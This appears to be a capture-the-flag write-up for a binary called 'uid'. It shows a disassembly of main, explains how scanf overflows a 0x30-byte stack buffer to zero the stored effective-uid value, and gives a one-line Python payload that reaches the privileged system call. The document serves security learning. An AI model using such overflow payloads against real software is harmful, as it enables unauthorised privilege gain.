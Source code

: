 objdump --disassemble=main -Mintel uid

```
0000000000001175 <main>:
    1175:       55                      push   rbp
    1176:       48 89 e5                mov    rbp,rsp
    1179:       48 83 ec 30             sub    rsp,0x30
    117d:       e8 ce fe ff ff          call   1050 <geteuid@plt>
    1182:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
    1185:       48 8d 3d 78 0e 00 00    lea    rdi,[rip+0xe78]        # 2004 <_IO_stdin_used+0x4>
    118c:       b8 00 00 00 00          mov    eax,0x0
    1191:       e8 aa fe ff ff          call   1040 <printf@plt>
    1196:       48 8b 05 b3 2e 00 00    mov    rax,QWORD PTR [rip+0x2eb3]        # 4050 <stdout@GLIBC_2.2.5>
    119d:       48 89 c7                mov    rdi,rax
    11a0:       e8 bb fe ff ff          call   1060 <fflush@plt>
    11a5:       48 8d 45 d0             lea    rax,[rbp-0x30]
    11a9:       48 89 c6                mov    rsi,rax
    11ac:       48 8d 3d 5c 0e 00 00    lea    rdi,[rip+0xe5c]        # 200f <_IO_stdin_used+0xf>
    11b3:       b8 00 00 00 00          mov    eax,0x0
    11b8:       e8 b3 fe ff ff          call   1070 <__isoc99_scanf@plt>
    11bd:       83 7d fc 00             cmp    DWORD PTR [rbp-0x4],0x0
    11c1:       75 0e                   jne    11d1 <main+0x5c>
    11c3:       48 8d 3d 48 0e 00 00    lea    rdi,[rip+0xe48]        # 2012 <_IO_stdin_used+0x12>
    11ca:       e8 61 fe ff ff          call   1030 <system@plt>
    11cf:       eb 0c                   jmp    11dd <main+0x68>
    11d1:       48 8d 3d 47 0e 00 00    lea    rdi,[rip+0xe47]        # 201f <_IO_stdin_used+0x1f>
    11d8:       e8 53 fe ff ff          call   1030 <system@plt>
    11dd:       b8 00 00 00 00          mov    eax,0x0
    11e2:       c9                      leave
    11e3:       c3                      ret
```
the important:

```
...
    1179:       48 83 ec 30             sub    rsp,0x30
...
    11a5:       48 8d 45 d0             lea    rax,[rbp-0x30]
    11a9:       48 89 c6                mov    rsi,rax
...
    11b8:       e8 b3 fe ff ff          call   1070 <__isoc99_scanf@plt>
    11bd:       83 7d fc 00             cmp    DWORD PTR [rbp-0x4],0x0
    11c1:       75 0e                   jne    11d1 <main+0x5c>
    11c3:       48 8d 3d 48 0e 00 00    lea    rdi,[rip+0xe48]        # 2012 <_IO_stdin_used+0x12>
    11ca:       e8 61 fe ff ff          call   1030 <system@plt>
...
    11d1:       48 8d 3d 47 0e 00 00    lea    rdi,[rip+0xe47]        # 201f <_IO_stdin_used+0x1f>
    11d8:       e8 53 fe ff ff          call   1030 <system@plt>
...
```
we learn that: the buffer is `0x30`
we write into the buffer with scnaf 
there is two call to system, because in local where flop.txt doesn't exists we get an error we guess that these
calls are some `cat ...` which is confirmed by `strings uid`
the first system call is conditional so this is the one we must pass in 
we have to fill the buffer with null bytes
solution:
`python -c 'print("\x00"*0x30)' | ./uid`


